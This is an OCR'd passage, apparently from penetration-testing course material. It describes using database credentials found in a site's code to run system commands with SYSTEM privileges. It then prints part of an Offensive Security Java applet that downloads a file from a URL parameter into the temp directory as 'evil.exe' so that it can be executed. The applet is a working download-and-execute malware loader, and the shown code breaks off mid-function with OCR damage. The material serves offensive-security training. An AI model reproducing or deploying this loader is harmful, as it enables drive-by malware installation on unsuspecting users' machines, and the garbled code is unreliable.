 You dig into the code running the site, and discover administrative database
credentials within. Fortunately, the database is externally available. You
connect to the database with your newly found administrative credentials, and
execute system commands through the database with administrative, or SYSTEM
privileges.

Java applet

import java.applet.\*;

import java.awt.\*;

import java.io.\*;

import java.net.URL;

import java.util.\*;

/\*\*

\* Author: Offensive Security

\* This Java applet will download a file and execute it.

\*\*/

public class Java extends Applet {

>   private Object initialized = null;

>   public Object isInitialized()

>   {

>   return initialized;

>   }

>   public void init() {

>   Process f;

>   try {

>   String tmpdir = System.getProperty("java.io.tmpdir") + File.separator;

>   String expath = tmpdir + "evil.exe";

>   String download = "";

>   download = getParameter("1");

>   if (download.length() \> 0) {

>   // URL parameter

>   URL url = new URL(download);

>   // Get an input stream for reading

>   InputStream in = url.openStream();

>   // Create a buffered input stream for efficency

>   BufferedInputStream bufIn = new BufferedInputStream(in);
